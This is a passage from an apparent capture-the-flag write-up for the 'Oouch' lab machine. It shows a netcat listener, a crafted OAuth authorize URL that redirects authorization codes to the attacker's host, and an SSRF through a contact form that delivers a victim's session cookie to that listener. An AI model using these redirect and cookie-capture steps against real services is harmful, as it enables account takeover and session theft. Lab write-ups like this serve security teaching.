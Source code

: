 http://authorization.oouch.htb:8000/oauth/applications/2/

![](https://i.imgur.com/hxMb6jf.png)

Let's start a listener:

```
$ nc -nlvp 8888
```

Now reading some [Oracle documentation - Authenticate using OAuth 2.0](https://docs.oracle.com/en/cloud/saas/marketing/eloqua-develop/Developers/GettingStarted/Authentication/authenticate-using-oauth.htm)

We know we must request http://authorization.oouch.htb:8000/oauth/authorize endpoint with some well known params.

```
http://authorization.oouch.htb:8000/oauth/authorize?response_type=code&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&redirect_uri=http://10.10.15.142:8888/&grant_type=authorization_code&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs
```

Let's try this URL:

![](https://i.imgur.com/KzULlvh.png)

If we confirm the authorization we receive the Authorization Grant URL like earlier.

```
$ nc -nlvp 8888
Connection from 10.10.15.142:41502
GET /?code=68fq0Y8Anbh0Elid3ERKvrb9UCzsbO HTTP/1.1
Host: 10.10.15.142:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?response_type=code&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&redirect_uri=http://10.10.15.142:8888/&grant_type=authorization_code&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs
Connection: close
Upgrade-Insecure-Requests: 1
```

### 2nd oAuth exploitation

Let's go back to the contact page (http://consumer.oouch.htb:5000/contact) and use the pseudo-SSRF to gain qtc access, not to the consumer site but to the provider site this time.

After a few minutes we receive the cookie of qtc:

```
$ nc -nlvp 8888
Connection from 10.10.10.177:55806
GET /?error=invalid_request&error_description=Missing+response_type+parameter. HTTP/1.1
Host: 10.10.15.142:8888
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e;
```
